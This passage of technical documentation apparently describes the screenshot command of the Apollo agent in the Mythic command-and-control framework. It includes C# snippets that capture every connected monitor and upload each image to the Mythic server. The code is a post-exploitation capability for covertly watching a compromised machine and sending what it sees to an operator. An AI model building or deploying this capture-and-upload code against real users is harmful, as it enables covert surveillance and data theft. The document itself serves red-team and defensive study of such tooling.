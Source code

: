 - Returns raw byte array for file upload

#### 3. Multi-Monitor Support
```csharp
// Screen.AllScreens provides access to all displays
foreach (Screen screen in Screen.AllScreens)
{
    // Each screen has bounds: X, Y, Width, Height
    Point sourcePoint = new Point(screen.Bounds.X, screen.Bounds.Y);
    Size screenSize = new Size(screen.Bounds.Width, screen.Bounds.Height);
    
    // Capture specific screen region
    g.CopyFromScreen(sourcePoint, Point.Empty, screenSize);
}
```
- Handles extended desktop configurations automatically
- Captures each monitor as separate image file
- Preserves original screen resolution and aspect ratio
- Supports non-aligned monitor arrangements

#### 4. File Management and Upload
```csharp
foreach (byte[] bScreen in captures)
{
    bool putFile = _agent.GetFileManager().PutFile(
        _cancellationToken.Token, 
        _data.ID, 
        bScreen, 
        null, 
        out string mythicFileId, 
        true
    );
    
    if (putFile is false)
    {
        DebugHelp.DebugWriteLine("put file failed");
        resp = CreateTaskResponse("", true, "error");
        break;
    }
    
    _agent.GetTaskManager().AddTaskResponseToQueue(
        CreateTaskResponse(mythicFileId, false, "")
    );
}
```
- Uploads each screenshot as separate file to Mythic
- Uses Apollo's file manager for secure transfer
- Generates unique Mythic file ID for each image
- Provides intermediate responses for real-time feedback
- Handles upload failures gracefully with error reporting

#### 5. Memory Management and Resource Cleanup
```csharp
using Bitmap bmpScreenCapture = new(screen.Bounds.Width, screen.Bounds.Height);
using Graphics g = Graphics.FromImage(bmpScreenCapture);
using MemoryStream ms = new();
```
- Uses `using` statements for automatic resource disposal
- Ensures proper cleanup of GDI+ objects
- Prevents memory leaks from bitmap and graphics handles
- Releases memory streams after PNG encoding
